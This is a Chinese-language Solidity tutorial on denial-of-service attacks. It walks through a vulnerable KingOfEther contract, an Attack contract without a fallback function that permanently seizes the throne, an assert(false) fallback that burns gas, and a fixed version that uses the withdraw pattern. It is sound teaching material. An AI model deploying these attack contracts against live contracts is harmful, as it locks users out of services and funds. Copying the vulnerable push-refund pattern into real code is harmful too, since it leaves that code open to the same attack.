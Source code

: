 # 72.Denial of Service
Solidity的Denial of Service (DoS)攻击是一种恶意行为，旨在通过消耗大量资源来阻止合约的正常运行。攻击者可以通过多种方式实现DoS攻击，包括：
* 无限循环：攻击者可以编写一个无限循环的代码，使合约陷入死循环，从而消耗大量的计算资源。
* 大量输入：攻击者可以向合约发送大量的输入数据，使合约无法处理所有的请求，从而导致拒绝服务。
* 阻塞调用：攻击者可以利用阻塞调用的漏洞，使合约陷入阻塞状态，从而无法继续执行其他操作。
## 漏洞
攻击智能合约使其无法使用的方法有很多种。
我们在这里介绍的一种利用是通过让发送以太的函数失败来实现拒绝服务。
以太坊智能合约通常包含发送以太的函数，这些函数允许用户将以太转移到其他地址。攻击者可以利用漏洞或故意构造恶意输入来使这些函数失败，从而阻止其他用户发送以太或执行其他操作。
## KingOfEther
KingOfEther的目标是通过发送比前任国王更多的以太来成为国王。前任国王将获得他发送的以太的退款。
```solidity
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```
## 攻击合约Attack
1. 部署KingOfEther。
2. Alice通过发送1 以太来调用claimThrone()函数成为了国王。
3. Bob通过发送2 以太来调用claimThrone()函数成为了国王。Alice收到了1 以太的退款。
4. 部署Attack合约并将KingOfEther的地址作为参数。
5. 调用attack函数并发送3 以太。
6. 当前的国王是Attack合约，没有人可以成为新的国王。

发生了什么？
Attack成为了国王。所有试图夺取王位的新挑战都将被拒绝，因为Attack合约没有回退函数，拒绝接受在新国王产生之前从KingOfEther发送的以太。
```solidity
contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
你还可以通过使用assert消耗所有的gas来执行DOS攻击。
即使调用合约没有检查调用是否成功，此攻击也会起作用。
```solidity
    function () external payable {
        assert(false);
    }
```
## 预防性技术
防止这种情况的一种方法是允许用户撤回他们的以太而不是发送它。
以下是一个例子。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

## remix验证
部署合约KingOfEther，1地址通过发送1 以太来调用claimThrone()函数成为了国王。
![72-1.png](./img/72-1.png)
2地址通过发送2 以太来调用claimThrone()函数成为了国王。1地址收到了1 以太的退款。
![72-2.png](./img/72-2.png)
部署Attack合约并将KingOfEther的地址作为参数。调用attack函数并发送3 以太。当前的国王是Attack合约。
![72-3.png](./img/72-3.png)
